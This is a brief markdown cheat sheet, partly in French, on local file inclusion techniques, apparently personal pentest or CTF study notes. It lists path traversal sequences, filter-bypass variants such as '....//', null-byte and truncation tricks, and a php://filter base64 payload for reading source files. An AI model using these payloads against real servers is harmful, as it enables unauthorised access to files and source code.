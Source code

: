 # File Inclusion

----
## 

###### Path transversal
```bash
# utiliser pour se deplacer et executer le fichier 
../<NomFile>
```

###### Basic Bypasses

```bash
# filter : replace ../ by ''
Bypass : ....// | ..\/ | convertIntoURLEncoding

# Approved Paths 
Bypass : ./<CurrentDirectory>/<PathTransversal>
```
* Path Trucation 
* Null Bytes 
    * Ajouter %00 à la fin de l'extension du fichier

###### PHP Filters
- Directory fuzzing ( dirbuster, ffuf )
- Lire un fichier php
```URL
# mettre dans l'url
php://filter/read=convert.base64-encode/resource=<FileName>
```
----

##